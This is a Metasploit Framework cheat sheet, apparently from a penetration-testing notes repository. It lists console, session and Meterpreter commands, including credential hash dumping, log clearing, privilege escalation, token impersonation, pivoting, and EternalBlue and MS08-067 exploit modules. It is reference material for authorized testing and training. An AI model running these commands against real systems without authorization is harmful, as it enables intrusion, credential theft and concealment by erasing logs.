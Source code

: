 ### Metasploit Cheat Sheet

---

![Metasploit Framework Logo](/images/cheatsheet/offensive_security/msflogo.png)

We've a cheat sheet about [msfvenom](/cheatsheet/offensive_security/msfvenom/msfvenom_cheat_sheet.md) without any explaination about metasploit framework. So, here is metasploit framework.

Metasploit is a free tool that has built-in exploits which aids in gaining remote access to a system by exploiting a vulnerability in that server.

### General Information:

| Command | Description |
| --- | --- |
| msfconsole | Launch program |
| version | Display Current Version |
| msfupdate | Pull the weekly Update |
| makerc `<FILE.rc>` | Saves Recent Command to a File |
| msfconsole -r `<FILE.rc>` | Loads a resource file |

### Executing an Exploit / Scanner / Module

| Command | Description |
| --- | --- |
| use `<MODULE>` | Set the exploit to use |
| set payload `<PAYLOAD>` | Set the payload |
| show options | Show all options |
| set `<OPTION> <SETTING>` | Set a setting |
| exploit or run | Execute the exploit |

### Session Handling

| Command | Description |
| --- | --- |
| sessions -l | List all sessions |
| sessions -i `<ID>` | Interact/attach to session |
| background or ^Z | Detach from Session |

### Using the Database

The DB saves data found during exploitation. Auxiliary scan results, hashdumps, and credentials show up in the DB.

> First Time Setup (Run from linux command line.)

| Command | Description |
| --- | --- |
| service postgresql Start | Start DB |
| msfdb Init | 	Init the DB |

> Inside msfconsole

| Command | Description |
| --- | --- |
| db_status | Should say connected |
| hosts | Show hosts in DB |
| services | Show ports in DB |
| vulns | Show all vulns found |


### Meterpreter Session Commands

The Meterpreter is a payload within the Metasploit Framework that provides control over an exploited target system, running as a DLL loaded inside of any process on a target machine.

| Command | Description |
| --- | --- |
| sysinfo | Show system info |
| ps | Show running processes |
| kill `<PID>` | Terminate a process |
| getuid | Show your user ID |
| upload / download | Upload / download a file |
| pwd / lpwd | Print working directory (local / remote) |
| cd / lcd | Change directory (local / remote) |
| cat | Show contents of a file |
| edit `<FILE>` | Edit a file (vim) |
| shell | Drop into a shell on the target machine |
| migrate `<PID>` | Switch to another process |
| hashdump | Show all pw hashes (Windows only) |
| idletime | Display idle time of user |
| screenshot | Take a screenshot |
| clearev | Clear the logs |

> Escalate Privileges:

| Command | Description |
| --- | --- |
| use priv | Load the script |
| getsystem | Elevate your privs |
| getprivs | Elevates your privs |

> Token Stealing (Windows only)

| Command | Description |
| --- | --- |
| use incognito | Load the Script |
| list_tokens -u | Show all tokens |
| impersonate_token | DOMAIN/USER Use Token |
| drop_token | Stop using token |

> Network Pivoting

| Command | Description |
| --- | --- |
| portfwd [ADD/DELETE] -L `<LHOST>` -l 3388 -r `<RHOST>` -p 3389 | Enable port forwarding |
| route add `<SUBNET> <MASK>` | Pivot through a session by adding a route within msf |
| route add `192.168.0.0/24` | Pivot through a session by adding a route within msf |
| route add `192.168.0.0/24` -d | Deleting a route within msf |

### Finding an Exploit/Payload to USE

| Command | Description |
| --- | --- |
| search <TERM> | Searches all exploits, payloads, and auxiliary modules |
| show exploits | Show all exploits |
| show payloads | Show all payloads |
| show auxiliary | Show all auxiliary modules (like scannners) |
| show all | * |

> My Favorite

| Command | Description |
| --- | --- |
| use auxiliary/scanner/smb/smb_enumshares | SMB Share Enumeration |
| use auxiliary/scanner/smb/smb_ms17_010 | MS17-010 SMB RCE Detection |
| use exploit/windows/smb/ms17_010_eternalblue | MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption |
| use exploit/windows/smb/ms17_010_psexec | MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution |
| use exploit/windows/smb/ms08_067_netapi | MS08-067 Microsoft Server Service Relative Path Stack Corruption |
| use exploit/windows/smb/psexec | Microsoft Windows Authenticated User Code Execution |
| use exploit/multi/ssh/sshexec | SSH User Code Execution (good for using meterpreter) |
| use post/windows/gather/arp_scanner | Windows Gather ARP Scanner |
| use post/windows/gather/enum_applications | Windows Gather Installed Application Enumeration |
| run getgui -e | Enables RDP for Windows in meterpreter session |

### External Sources:

[CoreBit Metasploit CheatSheet: Github](https://github.com/coreb1t/awesome-pentest-cheat-sheets/blob/master/docs/Metasploit-CheatSheet.pdf)
[Sans: Sec560 - Misc tools sheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

---

[Back To: Cheatsheet](/cheatsheet/cheatsheet_readme.md) [HOME Page](/README.md)
